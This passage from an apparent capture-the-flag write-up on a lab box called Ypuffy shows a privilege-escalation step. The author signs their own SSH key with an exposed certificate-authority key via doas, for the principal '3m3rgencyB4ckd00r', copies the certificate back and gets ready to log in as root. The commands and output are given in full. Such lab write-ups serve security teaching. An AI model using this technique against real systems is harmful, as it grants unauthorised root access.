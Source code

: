 ypuffy$ doas -u userca /usr/bin/ssh-keygen -s /home/userca/ca -I 0xdf -n 3m3rgencyB4ckd00r -V +52w id_rsa_ypuffy_root.pub
Signed user key id_rsa_ypuffy_root-cert.pub: id "0xdf" serial 0 for 3m3rgencyB4ckd00r valid from 2019-02-01T09:01:00 to 2020-01-31T09:02:19

ypuffy$ ls -l id_rsa_ypuffy_root*
-rw-r--r--  1 userca     wheel  1504 Feb  1 09:02 id_rsa_ypuffy_root-cert.pub
-rwxr-xr--  1 alice1978  wheel   391 Feb  1 08:55 id_rsa_ypuffy_root.pub
Here’s the breakdown of the options I used with ssh-keygen:
•	-s /home/userca/ca - Specifies that I want to sign a public key using the given CA private key.
•	-I 0xdf - The identify associated with the certificate. In this case, it’s arbitrary. In an enterprise, they could use this to track who was assigned a given cert.
•	-n 3m3rgencyB4ckd00r - The principles to be included in the certificate.
•	-V +52w - Make this certificate good for 52 weeks.
•	id_rsa_ypuffy_root.pub - the public key that will be associated with the certificate.
As the output shows, the command output a file ending in -cert.pub. The original public key is unchanged.
scp Certificate
I can delete the public key here since I don’t need it anymore (I have a copy on my host). I’ll need to get the certificate back. I could just copy/paste, but I’ll use scp:
root@kali# scp -i alice.pem [alice1978@10.10.10.107](mailto:alice1978@10.10.10.107):/tmp/id_rsa_ypuffy_root-cert.pub .
id_rsa_ypuffy_root-cert.pub                             100% 1504    73.0KB/s   00:00
Examine Certificate / Keys
I can look at my certificate and keys using ssh-keygen. I’ll start by getting the certificate information (-L) on the file:
root@kali# ssh-keygen -L -f id_rsa_ypuffy_root-cert.pub
id_rsa_ypuffy_root-cert.pub:
Type: [ssh-rsa-cert-v01@openssh.com](mailto:ssh-rsa-cert-v01@openssh.com) user certificate
Public key: RSA-CERT SHA256:dWbA41JT/ytpdyy7lIKXaU/OQF6Rsl8XH7w7gG37fhI
Signing CA: RSA SHA256:WCPFBuZqiubacS+hgAGylLHBjatuKa8zoWO2vFFycsg
Key ID: "0xdf"
Serial: 0
Valid: from 2019-02-01T09:01:00 to 2020-01-31T09:02:19
Principals:
3m3rgencyB4ckd00r
Critical Options: (none)
Extensions:
permit-X11-forwarding
permit-agent-forwarding
permit-port-forwarding
permit-pty
permit-user-rc
I can use ssh-keygen to check out the public key associated with my private key and see that it matches, which is cool, since this private key didn’t go to the server, but it is connected to this certificate:
root@kali# ssh-keygen -l -f id_rsa_ypuffy_root
2048 SHA256:dWbA41JT/ytpdyy7lIKXaU/OQF6Rsl8XH7w7gG37fhI root@kali (RSA)
Logging In as root
Now I can ssh in as root. From the ssh man page:
-i identity_file
Selects a file from which the identity (private key) for public
key authentication is read.  The default is ~/.ssh/id_dsa,
~/.ssh/id_ecdsa, ~/.ssh/id_ed25519 and ~/.ssh/id_rsa.  Identity
files may also be specified on a per-host basis in the configu‐
ration file.  It is possible to have multiple -i options (and
multiple identities specified in configuration files).  If no
certificates have been explicitly specified by the
CertificateFile directive, ssh will also try to load certifi‐
cate information from the filename obtained by appending
-cert.pub to identity filenames.
So I’m need my certificate to match my private key plus -cert.pub, which it does. With those two in the same directory, log in, specifying the private key:
root@kali# ls id_rsa_ypuffy_root*
